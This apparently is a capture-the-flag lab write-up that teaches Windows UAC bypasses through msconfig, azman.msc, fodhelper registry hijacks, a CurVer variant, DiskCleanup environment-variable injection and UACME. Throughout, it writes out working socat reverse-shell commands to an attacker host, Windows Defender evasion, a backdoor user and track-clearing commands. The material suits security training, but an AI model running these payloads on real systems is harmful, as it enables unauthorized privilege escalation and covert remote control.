






#  Introduction

In this room, we will be looking at common ways to bypass a security feature available to Windows systems known as **User Account Control (UAC).** This feature allows for any process to be run with low privileges  independent of who runs it (either a regular user or an admin).

From an attacker's perspective, bypassing UAC is essential to breaking out of highly restrictive environments and  fully elevating privileges on target hosts. While learning the bypass  techniques, we will also look at any alerts that could be triggered and  artefacts that may be created on the target system that the blue team  could detect.

# User Account Control (UAC)

### What is UAC?

User Account Control (UAC) is a Windows security feature that forces any new process to run in the security context of a non-privileged account by default. This policy  applies to processes started by any user, including administrators  themselves. The idea is that we can't solely rely on the user's identity to determine if some actions should be authorized.

Although this may seem counterintuitive, imagine the case where user BOB unknowingly downloads a malicious application from the  Internet. If BOB is a part of the Administrators group, any application  he launches will inherit its access token privileges. So if BOB decides  to launch the malicious application and UAC is disabled, the malicious application would gain administrator  privileges instantly. Instead, the malicious application will be  restricted to a non-administrative access token when UAC is enabled.

### UAC Elevation

If an administrator is required to perform a privileged task, UAC provides a way to elevate privileges. **Elevation** works by presenting a simple dialogue box to the user to confirm that  they explicitly approve running the application in an administrative  security context:




### Integrity Levels

UAC is a **Mandatory Integrity Control (MIC)**, which is a mechanism that allows differentiating users, processes and resources by assigning an **Integrity Level (IL)** to each of them. In general terms, users or processes with a higher IL  access token will be able to access resources with lower or equal ILs.  MIC takes precedence over regular Windows DACLs, so you may be authorized to access a resource according to the DACL, but it won't matter if your IL isn't high enough.

The following 4 ILs are used by Windows, ordered from lowest to highest:

| **Integrity Level** | **Use**                                                      |
| ------------------- | ------------------------------------------------------------ |
| Low                 | Generally used for interaction with the Internet (i.e. Internet Explorer). Has very limited permissions. |
| Medium              | Assigned to standard users and Administrators' filtered tokens. |
| High                | Used by Administrators' elevated tokens if UAC is enabled. If UAC is disabled, all administrators will always use a high IL token. |
| System              | Reserved for system use.                                     |

When a process requires to access a resource, it will inherit the calling  user's access token and its associated IL. The same occurs if a process  forks a child.

### Filtered Tokens

To accomplish this separation of roles, UAC treats regular users and administrators in a slightly different way during logon:

- **Non-administrators** will receive a single access  token when logged in, which will be used for all tasks performed by the  user. This token has Medium IL.

- Administrators

   will receive two access tokens:

  - **Filtered Token:** A token with Administrator privileges stripped, used for regular operations. This token has Medium IL.
  - **Elevated Token:** A token with full Administrator  privileges, used when something needs to be run with administrative  privileges. This token has High IL.

In this way, administrators will use their filtered token unless they explicitly request administrative privileges via UAC.

### Opening an Application the Usual Way

When trying to open a regular console, we can either open it as a  non-privileged user or as an administrator. Depending on our choice,  either a Medium or High integrity level token will be assigned to the  spawned process:


If we analyze both processes using Process Hacker, we can see the associated tokens and their differences :


On the left, you have a filtered token with medium IL and almost no  privileges assigned. On the right, you can see that the process runs  with high IL and has many more privileges available. Another difference  that may not be so obvious is that the medium IL process is effectively  denied any privileges related to being part of the Administrators group.

### UAC Settings

Depending on our security requirements, UAC can be configured to run at four different notification levels:

- **Always notify:** Notify and prompt the user for authorization when making changes to  Windows settings or when a program tries to install applications or make changes to the computer.
- **Notify me only when programs try to make changes to my computer:** Notify and prompt the user for authorization when a program tries to  install applications or make changes to the computer. Administrators  won't be prompted when changing Windows settings.
- **Notify me only when programs try to make changes to my computer (do not dim my desktop):** Same as above, but won't run the UAC prompt on a secure desktop.
- **Never notify:** Disable UAC prompt. Administrators will run everything using a high privilege token.

By default, UAC is configured on the **Notify me only when programs try to make changes to my computer** level:


From an attacker's perspective, the three lower security levels are  equivalent, and only the Always notify setting presents a difference.

### UAC Internals

At the heart of UAC, we have the **Application Information Service** or **Appinfo**. Whenever a user requires elevation, the following occurs: 

1. The user requests to run an application as administrator.
2. A **ShellExecute** API call is made using the **runas** verb. 
3. The request gets forwarded to Appinfo to handle elevation.
4. The application manifest is checked to see if AutoElevation is allowed (more on this later).
5. Appinfo executes **consent.exe**, which shows the UAC prompt on a **secure desktop**. A secure desktop is simply a separate desktop that isolates processes  from whatever is running in the actual user's desktop to avoid other  processes from tampering with the UAC prompt in any way.
6. If the user gives consent to run the application as administrator, the  Appinfo service will execute the request using a user's Elevated Token.  Appinfo will then set the parent process ID of the new process to point  to the shell from which elevation was requested.



### Bypassing UAC

From an attacker's perspective, there might be situations where you  get a remote shell to a Windows host via Powershell or cmd.exe. You  might even gain access through an account that is part of the  Administrators group, but when you try creating a backdoor user for  future access, you get the following error:

- **Powershell**        

```shell-session
PS C:\Users\attacker> net user backdoor Backd00r /add
System error 5 has occurred.

Access is denied.
        
```

By checking our assigned groups, we can  confirm that our session is running with a medium IL, meaning we are  effectively using a filtered token: 

- **Powershell**        

```shell-session
PS C:\Users\attacker> whoami /groups
	
GROUP INFORMATION
-----------------

Group Name                                                    Attributes
============================================================= ==================================================
Everyone                                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Group used for deny only
BUILTIN\Administrators                                        Group used for deny only
BUILTIN\Users                                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Mandatory group, Enabled by default, Enabled group
LOCAL                                                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level
        
```

Even when we get a Powershell session with an administrative user, UAC prevents us from performing any administrative tasks as we are  currently using a filtered token only. If we want to take full control  of our target, we must bypass UAC.

Interestingly enough, Microsoft doesn't consider UAC a security boundary but rather a simple convenience to the  administrator to avoid unnecessarily running processes with  administrative privileges. In that sense, the UAC prompt is more of a  reminder to the user that they are running with high privileges rather  than impeding a piece of malware or an attacker from doing so. Since it  isn't a security boundary, any bypass technique is not considered a  vulnerability to Microsoft, and therefore some of them remain unpatched  to this day.

Generally speaking, most of the bypass techniques rely on us  being able to leverage a High IL process to execute something on our  behalf. Since any process created by a High IL parent process will  inherit the same integrity level, this will be enough to get an elevated token without requiring us to go through the UAC prompt. 

For all the scenarios presented in this room, we assume we have access to the server with an administrative account but from a Medium  IL console only. Our goal will always be to access a High IL console  without going through UAC.

# UAC: GUI based bypasses                            

We will start by looking at GUI-based bypasses, as they provide an easy way to understand the basic concepts involved. These examples  are not usually applicable to real-world scenarios, as they rely on us  having access to a graphical session, from where we could use the  standard UAC to elevate.

Click the Start Machine button to deploy your VM and connect to it via RDP or in the side by side view in Browser:

```
xfreerdp /v:MACHINE_IP /u:attacker /p:Password321
```

This machine will be used for all tasks in the room.

#### Case study: msconfig

Our goal is to obtain access to a High IL command prompt without passing through UAC. First, let's start by opening msconfig, either from the start menu or the "Run" dialog:


If we analyze the msconfig process with Process Hacker  (available on your desktop), we notice something interesting. Even when  no UAC prompt was presented to us, msconfig runs as a high IL process:


This is possible thanks to a feature called auto elevation that  allows specific binaries to elevate without requiring the user's  interaction. More details on this later.

If we could force msconfig to spawn a shell for us, the shell would  inherit the same access token used by msconfig and therefore be run as a high IL process. By navigating to the Tools tab, we can find an option  to do just that:


If we click Launch, we will obtain a high IL command prompt without interacting with UAC in any way.

To retrieve the msconfig flag, use the obtained high integrity console to execute:

- **Administrator: Command Prompt**        

```shell-session
C:\> C:\flags\GetFlag-msconfig.exe

```

#### Case study: azman.msc

As with msconfig, azman.msc will auto elevate without requiring user interaction. If we can find a way to spawn a shell from within  that process, we will bypass UAC. Note that, unlike msconfig, azman.msc has no intended built-in way to  spawn a shell. We can easily overcome this with a bit of creativity.

First, let's run azman.msc:


We can confirm that a process with high IL was spawned by using  Process Hacker. Notice that all .msc files are run from mmc.exe  (Microsoft Management Console):


To run a shell, we will abuse the application's help:


On the help screen, we will right-click any part of the help article and select **View Source**:


This will spawn a notepad process that we can leverage to get a shell. To do so, go to **File->Open** and make sure to select **All Files** in the combo box on the lower right corner. Go to `C:\Windows\System32` and search for `cmd.exe` and right-click to select Open:



This will once again bypass UAC and give us access to a high integrity command prompt. You can check  the process tree in Process Hacker to see how the high integrity token  is passed from mmc (Microsoft Management Console, launched through the  Azman), all the way to cmd.exe:


To retrieve the azman flag, use the obtained high integrity console to execute:

- **Administrator: Command Prompt**        

```shell-session
C:\> C:\flags\GetFlag-azman.exe
```

#  UAC: Auto-Elevating Processes                            

### AutoElevate

As mentioned before, some executables can auto-elevate, achieving  high IL without any user intervention. This applies to most of the  Control Panel's functionality and some executables provided with  Windows.

For an application, some requirements need to be met to auto-elevate:

- The executable must be signed by the Windows Publisher
- The executable must be contained in a trusted directory, like `%SystemRoot%/System32/` or `%ProgramFiles%/`

Depending on the type of application, additional requirements may apply:

- Executable files (.exe) must declare the **autoElevate** element inside their manifests. To check a file's manifest, we can use **[sigcheck](https://docs.microsoft.com/en-us/sysinternals/downloads/sigcheck)**, a tool provided as part of the Sysinternals suite. You can find a copy of sigcheck on your machine on `C:\tools\` . If we check the manifest for msconfig.exe, we will find the autoElevate property:

- **Command Prompt**        

```shell-session
C:\tools\> sigcheck64.exe -m c:/windows/system32/msconfig.exe
...
<asmv3:application>
	<asmv3:windowsSettings xmlns="http://schemas.microsoft.com/SMI/2005/WindowsSettings">
		<dpiAware>true</dpiAware>
		<autoElevate>true</autoElevate>
	</asmv3:windowsSettings>
</asmv3:application>
        
```

- mmc.exe will auto elevate depending on the .msc snap-in that the  user requests. Most of the .msc files included with Windows will auto  elevate.
- Windows keeps an additional list of executables that auto elevate  even when not requested in the manifest. This list includes pkgmgr.exe  and spinstall.exe, for example.
- COM objects can also request auto-elevation by configuring some registry keys (https://docs.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker).

### Case study: Fodhelper

Fodhelper.exe is one of Windows default executables in charge  of managing Windows optional features, including additional languages,  applications not installed by default, or other operating system  characteristics. Like most of the programs used for system  configuration, fodhelper can auto elevate when using default UAC settings so that administrators won't be prompted for elevation when  performing standard administrative tasks. While we've already taken a  look at an autoElevate executable, unlike msconfig, fodhelper can be  abused without having access to a GUI.



From an attacker's perspective, this means it can be used through a medium  integrity remote shell and leveraged into a fully functional high  integrity process. This particular technique was discovered by [@winscripting](https://winscripting.blog/2017/05/12/first-entry-welcome-and-uac-bypass/) and has been used in the wild by the [Glupteba malware](https://www.cybereason.com/blog/glupteba-expands-operation-and-toolkit-with-lolbins-cryptominer-and-router-exploit).

What was noticed about fodhelper is that it searches the registry for a specific key of interest:


When Windows opens a file, it checks the registry to know what  application to use. The registry holds a key known as Programmatic ID (**ProgID**) for each filetype, where the corresponding application is associated.  Let's say you try to open an HTML file. A part of the registry known as  the **HKEY_CLASSES_ROOT** will be checked so that the  system knows that it must use your preferred web client to open it. The  command to use will be specified under the `shell/open/command` subkey for each file's ProgID. Taking the "htmlfile" ProgID as an example:


In reality, HKEY_CLASSES_ROOT is just a merged view of two different paths on the registry:

| **Path**                            | **Description**                 |
| ----------------------------------- | ------------------------------- |
| HKEY_LOCAL_MACHINE\Software\Classes | System-wide file associations   |
| HKEY_CURRENT_USER\Software\Classes  | Active user's file associations |

When checking HKEY_CLASSES_ROOT, if there is a user-specific association at **HKEY_CURRENT_USER (HKCU)**, it will take priority. If no user-specific association is configured, then the system-wide association at **HKEY_LOCAL_MACHINE (HKLM)** will be used instead. This way, each user can choose their preferred applications separately if desired.

Going back to fodhelper, we now see that it's trying to open a  file under the ms-settings ProgID. By creating an association for that  ProgID in the current user's context under HKCU, we will override the  default system-wide association and, therefore, control which command is used to open the file. Since fodhelper is an autoElevate executable,  any subprocess it spawns will inherit a high integrity token,  effectively bypassing UAC.

### Putting it all together

One of our agents has planted a backdoor on the target server  for your convenience. He managed to create an account within the  Administrators group, but UAC is preventing the execution of any privileged tasks. To retrieve the  flag, he needs you to bypass UAC and get a fully functional high IL  shell.

- **To connect to the backdoor, you can use the following command:**

```
nc 10.10.186.4 9999
```

Once connected, we check if our user is part of the Administrators group and that it is running with a medium integrity token:

- **Attacker's Shell**        

```shell-session
user@kali$ nc 10.10.186.4 9999
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
myserver\attacker

C:\Windows\system32>net user attacker | find "Local Group"
Local Group Memberships      *Administrators       *Users                

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192
        
```

We set the required registry values to associate the ms-settings class to a reverse shell. For your convenience, a copy of **socat** can be found on `c:\tools\socat\`. You can use the following commands to set the required registry keys from a standard command line:

- **Command Prompt**        

```shell-session
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f
The operation completed successfully.
        
```

Notice how we need to create an empty value called **DelegateExecute** for the class association to take effect. If this registry value is not present, the operating system will ignore the command and use the  system-wide class association instead.

- **We set up a listener by using netcat in our machine:**

```
nc -lvp 4444
```

And then proceed to execute **fodhelper.exe**, which in turn will trigger the execution of our reverse shell:

| Command Prompt                `           C:\> fodhelper.exe             ` | ➜    | Attacker's Shell                `           user@kali$ nc -lvp 4444       Listening on 0.0.0.0 4444 Connection received on 10.10.183.127 49813 Microsoft Windows [Version 10.0.17763.1821] (c) 2018 Microsoft Corporation. All rights reserved. C:\Windows\system32>whoami /groups | find "Label" Mandatory Label\High Mandatory Level                          Label            S-1-16-12288        ` |
| ------------------------------------------------------------ | ---- | ------------------------------------------------------------ |
|                                                              |      |                                                              |

The received shell runs with high integrity, indicating we have successfully bypassed UAC.

To retrieve the fodhelper flag, use your new shell to execute:

- **Administrator: Command Prompt**        

```shell-session
C:\> C:\flags\GetFlag-fodhelper.exe
        
```

**Note: Keep in mind that the flag will only be returned if you successfully bypassed UAC via fodhelper and only from the resulting high integrity shell.**

### Clearing our tracks

As a result of executing this exploit, some artefacts were created on the target system in the form of registry keys. To avoid detection, we  need to clean up after ourselves with the following command:

```batch
reg delete HKCU\Software\Classes\ms-settings\ /f
```

**Note: Be sure to execute the given command to avoid any artefact interfering with the following tasks.**

#  UAC: Improving the Fodhelper Exploit to Bypass Windows Defender

### Windows Defender 

For simplicity, the machine we are targeting has Windows Defender disabled. But what would happen if it was enabled?

First, using your GUI connection, go to your desktop and double-click the following icon to enable Windows Defender:


Now try exploiting fodhelper again through the backdoor connection  and see what happens on the server's GUI. Just as you change the `(default)` value in `HKCU\Software\Classes\ms-settings\Shell\Open\command` to insert your reverse shell command, a Windows Defender notification will pop up:


By clicking the notification, we can check the details on the alert, which mention a UAC bypass attempt by modifying a registry value:



If you query the corresponding value on the registry, you will notice it has been erased:

- **Command Prompt**        

```shell-session
C:\Windows\system32>reg query %REG_KEY% /v ""

HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open\command
    (Default)    REG_SZ    (value not set)
        
```

Although by now it would seem our  exploit wouldn't work with Windows Defender enabled, check what happens  if you run the same commands but with a slight modification (be sure to  replace your IP address where needed):

- **Command Prompt**        

```shell-session
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f & reg query %REG_KEY%
HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open\command
    DelegateExecute    REG_SZ    
    (Default)    REG_SZ    powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes
        
```

We have added a quick query to the offending registry value right  after setting it to the command required for our reverse shell.  Surprisingly, the query outputs our command intact. We still get alerted by Windows Defender, and a second later, the  offending registry value gets deleted as expected. It appears it takes a moment for Windows Defender to take action on our exploit, so let's set a reverse listener on our attacker's machine:

```
nc -lvp 4444
```

And modify the exploit to run fodhelper.exe immediately after setting the registry value. If the command runs quick enough, it will just  work (be sure to replace your IP address where needed):

- **Command Prompt**        

```shell-session
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f & fodhelper.exe
        
```

Depending on your luck, fodhelper might execute before the AV kicks in, giving you back a reverse shell. If for some reason it  doesn't work for you, keep in mind that this method is unreliable as it  depends on a race between the AV and your payload executing first.  Should the reverse shell not work, just go ahead and continue with the  rest of the room, as a more consistent way to bypass Windows Defender  will be given below.

- **Attacker's Shell**        

```shell-session
user@kali$ nc -lvp 4444      
Listening on 0.0.0.0 4444
Connection received on 10.10.183.127 49813
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
        
```

Windows Defender still alerts about the  bypass, however. The problem with our current exploit is that it gives  little room for variation, as we need to write specific registry keys  for it to trigger, making it easy for Windows Defender to detect. But  there is still something to be done about it.

### Improving the fodhelper exploit

A variation on the fodhelper exploit was proposed by [@V3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses), where different registry keys are used, but the basic principle is the same.

Instead of writing our payload into

 `HKCU\Software\Classes\ms-settings\Shell\Open\command`, we will use the `CurVer` entry under a progID registry key. This entry is used when you have  multiple instances of an application with different versions running on  the same system. CurVer allows you to point to the default version of  the application to be used by Windows when opening a given file type.

To this end, we will create an entry on the registry for a new progID of our choice (any name will do) and then point the CurVer entry in the ms-settings progID to our newly created progID. This way, when  fodhelper tries opening a file using the ms-settings progID, it will  notice the CurVer entry pointing to our new progID and check it to see  what command to use.

The exploit code proposed by @V3ded uses Powershell to achieve this  end. Here is a modified version of it adapted to use our reverse shell (be sure to replace your IP address where needed):

```powershell
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

This exploit creates a new progID with the name **.pwn** and associates our payload to the command used when opening such files. It then points the CurVer entry of ms-settings to our .pwn progID. When fodhelper tries opening an ms-settings program, it will instead be  pointed to the .pwn progID and use its associated command.

This technique is more likely to evade Windows Defender since we have more liberty on where to put our payload, as the name of the progID  that holds our payload is entirely arbitrary. Let's start a new reverse  shell on our attacker's machine:

```
nc -lvp 4445
```

And execute the exploit from our backdoor connection as is. As a  result, Windows Defender will throw another alert that references our  actions:



Although we are still detected, it is essential to note that sometimes the detection methods used by AV software are implemented strictly against the published exploit,  without considering possible variations. If we translate our exploit  from Powershell to use cmd.exe, the AV won't raise any alerts (be sure to replace your IP address where needed):

- **Command Prompt**        

```shell-session
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
The operation completed successfully.

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
The operation completed successfully.

C:\> fodhelper.exe
        
```

And we get a high integrity reverse shell:

- **Attacker's Shell**        

```shell-session
user@kali$ nc -lvp 4445      
Listening on 0.0.0.0 4445
Connection received on 10.10.183.127 23441
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
        
```

To retrieve the fodhelper-curver flag, use your new shell to execute:

- **Administrator: Command Prompt**

```shell-session
C:\> C:\flags\GetFlag-fodhelper-curver.exe
        
```

**Note: Keep in mind that the flag will only be returned if you** **successfully** **bypassed UAC via fodhelper and only from the resulting high integrity shell via socat.**

### Clearing our tracks

As a result of executing this exploit, some artefacts were created on the target system, such as registry keys. To avoid detection, we need  to clean up after ourselves with the following commands:

```batch
reg delete "HKCU\Software\Classes\.thm\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```

**Note: Be sure to execute the given commands to avoid any artefact interfering with the following tasks.**

#  UAC: Environment Variable Expansion                            

### Bypassing Always Notify

As seen in the previous task, on default Windows  configurations, you can abuse applications related to the system's  configuration to bypass UAC as most of these apps have the autoElevate flag set on their manifests. However, if UAC is configured on the "Always Notify" level, fodhelper  and similar apps won't be of any use as they will require the user to go through the UAC prompt to elevate. This would prevent several known  bypass methods to be used, but not all hope is lost. 

For the following technique, we'll be abusing a scheduled task  that can be run by any user but will execute with the highest privileges available to the caller. Scheduled tasks are an exciting target. By  design, they are meant to be run without any user interaction  (independent of the UAC security level), so asking the user to elevate a process manually is  not an option. Any scheduled tasks that require elevation will  automatically get it without going through a UAC prompt.

### Case study: Disk Cleanup Scheduled Task

**Note: Be sure to disable Windows Defender for this task, or you may have some difficulties when running the exploit.** **Just run the provided shortcut on your machine's desktop to disable it.**

To understand why we are picking Disk Cleanup, let's open the **Task Scheduler** and check the task's configuration:


Here we can see that the task is configured to run with the **Users** account, which means it will inherit the privileges from the calling user. The **Run with highest privileges** option will use the highest privilege security token available to the  calling user, which is a high IL token for an administrator. Notice that if a regular non-admin user invokes this task, it will execute with  medium IL only since that is the highest privilege token available to  non-admins, and therefore the bypass wouldn't work.

Checking the Actions and Settings tabs, we have the following:


The task can be run on-demand, executing the following command when invoked:

 `%windir%\system32\cleanmgr.exe /autoclean /d %systemdrive%`

Since the command depends on environment variables, we might be able to  inject commands through them and get them executed by starting the  DiskCleanup task manually.

Luckily for us, we can override the `%windir%` variable through the registry by creating an entry in `HKCU\Environment`. If we want to execute a reverse shell using socat, we can set `%windir%` as follows (without the quotes):

```
"cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM "
```

At the end of our command, we concatenate "&REM " (ending with a blank space) to comment whatever is put after `%windir%` when expanding the environment variable to get the final command used  by DiskCleanup. The resulting command would be (be sure to replace your  IP address where needed):

```
cmd.exe /c C:\tools\socat\socat.exe  TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM  \system32\cleanmgr.exe /autoclean /d %systemdrive%
```

Where anything after the "REM" is ignored as a comment.

### Putting it all together

Let's set up a listener for a reverse shell with nc:
 `nc -lvp 4446`

We will then connect to the backdoor provided on port 9999:
 `nc 10.10.186.4 9999`

And finally, run the following commands to write our payload to `%windir%` and then execute the DiskCleanup task (be sure to replace your IP address where needed):

- **Command Prompt**        

```shell-session
C:\> reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4446 EXEC:cmd.exe,pipes &REM " /f

C:\> schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
        
```

As a result, you should obtain a shell with high IL:

- **Attacker's Machine**        

```shell-session
user@kali$ nc -lvp 4446      
Listening on 0.0.0.0 4446
Connection received on 10.10.183.127 25631
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
        
```

To retrieve the DiskCleanup flag, use your new shell to execute:

- **Administrator: Command Prompt**        

```shell-session
C:\flags\GetFlag-diskcleanup.exe
        
```

**Note: Keep in mind that the flag will only be returned if you successfully bypassed UAC via diskcleanup, and only from the resulting high integrity shell via socat.**

### Clearing our tracks

As a result of executing this exploit, some artefacts were created on the target system, such as registry keys. To avoid detection, we need  to clean up after ourselves with the following command:

```batch
reg delete "HKCU\Environment" /v "windir" /f
```

**Note: Be sure to execute the given command to avoid any artefact  interfering with the following tasks. Since many Windows components rely on the %windir% environment variable, a lot of things won't** **properly** **work until you remove the registry key used for this bypass.**

# Automated Exploitation

### Automating UAC Bypasses

An excellent tool is available to test for UAC bypasses without writing your exploits from scratch. Created by  @hfiref0x, UACME provides an up to date repository of UAC bypass  techniques that can be used out of the box. The tool is available for  download at its official repository on:

https://github.com/hfiref0x/UACME

While UACME provides several tools, we will focus mainly on the one called Akagi,  which runs the actual UAC bypasses. You can find a compiled version of  Akagi under `C:\tools\UACME-Akagi64.exe`.

Using the tool is straightforward and only requires you to indicate  the number corresponding to the method to be tested. A complete list of  methods is available on the project's GitHub description. If you want to test for method 33, you can do the following from a command prompt, and a high integrity cmd.exe will pop up:

- **Command Prompt**        

```shell-session
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\attacker>cd /tools

C:\tools>UACME-Akagi64.exe 33
        
```

The methods introduced through this room can also be tested by UACME by using the following methods:

| Method Id | Bypass technique                        |
| --------- | --------------------------------------- |
| 33        | fodhelper.exe                           |
| 34        | DiskCleanup scheduled task              |
| 70        | fodhelper.exe using CurVer registry key |

As we have seen, UAC isn't considered a security boundary and is therefore prone to several bypass methods.

Should you be interested in learning more techniques, the following resources are available:

- [UACME github repository](https://github.com/hfiref0x/UACME)
- [Bypassing UAC with mock folders and DLL hijacking](https://www.bleepingcomputer.com/news/security/bypassing-windows-10-uac-with-mock-folders-and-dll-hijacking/)
- [UAC bypass techniques detection strategies](https://elastic.github.io/security-research/whitepapers/2022/02/03.exploring-windows-uac-bypass-techniques-detection-strategies/article/) 
- [Reading your way around UAC](https://www.tiraniddo.dev/2017/05/reading-your-way-around-uac-part-1.html)